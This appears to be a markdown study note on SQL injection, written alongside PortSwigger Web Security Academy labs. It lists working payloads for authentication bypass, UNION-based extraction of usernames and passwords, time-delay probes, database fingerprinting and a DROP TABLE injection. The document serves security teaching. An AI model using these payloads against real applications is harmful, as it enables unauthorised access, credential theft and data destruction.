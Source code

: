 # Injection Examples: [Lab-Solutions](https://github.com/IOxCyber/CyberEssentials/blob/f759882896be05d29c88b3d7bc31fc83759afab3/Security-Tools/Burp_Suite/PortSwigger-WebSecAcad/Web_Vuln-Insights/SQL%20Injection/SQLi_Labs.md)

## A. `Retrieving hidden data`, where you can modify a SQL query to return additional results. #Lab-1

### 1. Testing for boolean-based attacks:
- Original Query: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
- Modified: ![image](https://github.com/user-attachments/assets/e4236490-1079-4f23-92c9-a4097f63a50c)
- Query to executed by DB after injections: `SELECT * FROM products;`

### Injections:
- `'OR '1'='1` - This payload appends an OR condition that always evaluates to true.
- `'OR 1=1 --` - This payload appends an OR condition that always evaluates to true, commenting out the remaining portion of the original query.
- `'OR 'x'='x` - This payload compares a string with itself, resulting in a true condition.

### 2. Testing for time-based attacks:
- `'OR SLEEP(5) --` - This payload tries to induce a delay of 5 seconds in the SQL query execution by using the SLEEP function. If the website is vulnerable, it will take longer to respond.
- `'OR BENCHMARK(10000000,SHA1(1)) --` - This payload attempts to measure the time taken to execute the SHA1 function a large number of times, causing a significant delay if the SQL injection is successful.

### 3. Testing for error-based attacks:
- `'OR 1=1; DROP TABLE users; --` - This payload combines a valid condition (1=1) with a malicious action (DROP TABLE users), potentially causing an error and deleting the "users" table.
-  `'OR 1=1 UNION ALL SELECT NULL, CONCAT(username,':', password) FROM users --` - This payload attempts to perform a UNION-based SQL injection to retrieve the usernames and passwords from the "users" table.

---
---

## B. `Subverting/interfering with application logic`, change a query to interfere with the application's logic. #Lab-2
- Testing on a login page involves attempting to subvert the application logic and bypass the authentication mechanism
- `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''` commenting out the remaining portion of the original query.

---
---

# UNION Attack

## C. UNION attacks `to combine the result sets of two or more SELECT statements in a single SQL query`

### 1. `Retrieve data from different database tables.`
- eg. `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

## NOTE: For a Union Query to work: Both queries should `Return same number of Columns, Data type must be compatiable.`

### Example
1. Original Query: `SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password';`

2. Injection: `username ' UNION SELECT null, table_name FROM information_schema.tables --` (-- to comment out rest of the original query)

3. Modified Query: `SELECT * FROM users WHERE username = '' UNION SELECT null, table_name FROM information_schema.tables --' AND password = 'input_password';`

### 2. Determining the `number of columns being returned from the original query` #LAB-3
- Motive: Determine the Columns Numbers > 

- Method 1: `injecting a series of ORDER BY clauses and incrementing` the specified column index until an error occurs.
> `ORDER BY` clause in SQL is used to sort the result set of a query by one or more columns.
```
eg.
SELECT * FROM employees WHERE age > 25 ORDER BY salary DESC;

' ORDER BY 1--    **It means to sort the table by column 1**
' ORDER BY 2--
' ORDER BY 3--
etc.
```
- Method 2: Submitting a series of `UNION SELECT` payloads specifying a different number of null values.
> NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed.
```
eg.

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

### Finding columns with a useful data type eg. TEXT #Lab-4
- `After we determine the number of returning columns, we can probe each column to test whether it can hold string data.`
- We can submit a series of UNION SELECT payloads that place a string value into each column.
```
eg.

' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
> If the column data type is not compatible with string data, the injected query will cause a database error.


### Using a SQL injection UNION attack `to retrieve column(s) that can hold string Text`: #LAB-5
- Once, we determined the `number of columns returned` by the original query and found which `columns can hold string data`, you are in a position to retrieve interesting data.
```
eg.

The original query returns two columns, both of which can hold string data.
The injection point is a quoted string within the WHERE clause.
The database contains a table called users with the columns username and password.

In this example, you can retrieve the contents of the `users` table by submitting the input:

' UNION SELECT username, password FROM users--
```
> To perform above attack, we need to know that there is a `table USERS with two columns` called `username and password.`

### Retrieving multiple values within a single column: #LAB-6
- Can `retrieve multiple values together within this single column by concatenating the values` together.
- determine the No. of columns > determine which column allows TEXT values > retrieve Multiple TEXT values in a single Column.
- Oracle DB Injection: `' UNION SELECT username || '~' || password FROM users--`


### `Examining/Determining the database` in SQL injection attacks #Lab-7
- This includes `type and version` and `tables and columns` that the database contains.
- We can potentially identify both the database type and version by injecting provider-specific queries to see if one works.

- Type: Can be determined by `Comments` when we run a query
```
Eg.

Database type    	Query
Microsoft, MySQL	SELECT @@version
Oracle	          SELECT * FROM v$version
PostgreSQL	      SELECT version()

Comments:
Oracle	--comment

Microsoft	--comment /*comment*/

PostgreSQL	--comment /*comment*/

MySQL: #comment -- comment [Note the space after the double dash] /*comment*/
```

### Listing the contents of the database:
- Most database types (except Oracle) have a set of views called the information schema.
- To List the tables in DB: `SELECT * FROM information_schema.tables` Default Columns: `TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE`
- Then, To list the columns in individual tables: `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`


---
---
/*The NEXT*/












